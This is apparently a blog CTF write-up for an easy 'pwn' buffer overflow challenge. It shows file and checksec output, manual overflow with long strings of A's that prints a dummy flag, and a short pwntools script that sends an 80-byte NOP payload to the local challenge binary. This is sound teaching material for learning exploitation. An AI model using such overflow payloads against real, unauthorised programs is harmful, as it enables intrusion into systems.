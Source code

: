 ```yaml
---
title: "pwn - Buffer overflow"
date: 2023-05-20 15
time: 15:40:00 +0300
image: /assets/img/Posts/overflow.PNG
categories: [InterUniCTF, KCA, Easy]
tags: [pwn, reversing, overflow, binary, ghidra, pwntools, msf_modules]
---
```


> In this writeup, i will demostrate how to use basic tools to reverse a binary, determine the offset of the buffer using msf modules and automate the exploitation using pwntools.

## Lets get started

Download the binary to our local machine. You can get the a copy of the binary from [here](/assets/img/Posts/buffer-overflow/chall). First thing i do after i get a binary in my machine is checking the file description by running `file <binary>`. We see that it is a  64-bit architecture, dynamically linked and it is not stripped which means we can get to see the source code when we use `ghidra`. In this challenge we will not need it.

```bash
┌──(kali㉿kali)-[~/hacks/kca/pwn/overflow]
└─$ file chall 
chall: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=a485af73b0e8f94c6fa49af674e6aaaad3af1180, for GNU/Linux 3.2.0, not stripped
```

With that information we can move on and check the security set in the file using `checksec --file <binary>`

```bash
┌──(kali㉿kali)-[~/hacks/kca/pwn/overflow]
└─$ checksec --file chall 
[*] '/home/kali/hacks/kca/pwn/overflow/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled

```

We see that there is no `stack canary` which means stack values have no security that could protect them from buffer overflow. NX - non-executable or non execute is enabled which means that we cannot execute our injected data in the memory. and finally `PIE (Position Independent Executable)` is enabled too. So this program will not be using a static virtual address hence it will be changing every time we run it. Read more on binary files security [here](https://blog.siphos.be/2011/07/high-level-explanation-on-some-binary-executable-security/)

## Fun part

make it executable `chmod +x <binary>`

```bash
┌──(kali㉿kali)-[~/hacks/kca/pwn/overflow]
└─$ chmod +x chall
```
Going on and executing it asks us to overflow the buffer. simple, right? trying  sending some several A's we get no result. Adding some more we get an error `Error opening file, talk to admin!`. Sweeeeeet
Which file is it trying to open? because it is a CTF it must be a flag file.

```bash
┌──(kali㉿kali)-[~/hacks/kca/pwn/overflow]
└─$ ./chall                 
Overflow to get the flag: aaaaaaaaaaa
                                                                                                                                                                       
┌──(kali㉿kali)-[~/hacks/kca/pwn/overflow]
└─$ ./chall
Overflow to get the flag: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Error opening file, talk to admin!                                                                                                                                                                       
┌──(kali㉿kali)-[~/hacks/kca/pwn/overflow]
└─$ 
```
Created a dummy in `flag.txt` file in the same directory. Ran it again with buffer and booooooooom we get the flag.

```bash
┌──(kali㉿kali)-[~/hacks/kca/pwn/overflow]
└─$ ./chall      
Overflow to get the flag: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
flag{1t_mU5t_b3_y0U}
```

### Conclusion
> The challenge never required any advanced knowlegde of binary exploitation or buffer overflow stuffs. It was just sending enough buffer to overflow it and just like that it gave you the flag.

## Bonus section
Well, let me write a python script using pwntools to automate the above explotation. It is not necessary but one can get a basic understanding of how to use pwntools. 

```python
from pwn import *

p = process("./chall")


#send any size of buffer. i mean it should be large enough
payload = b''
payload += b'\x90'*80

p.recvuntil("flag: ")
p.sendline(payload)
print(p.recv())

```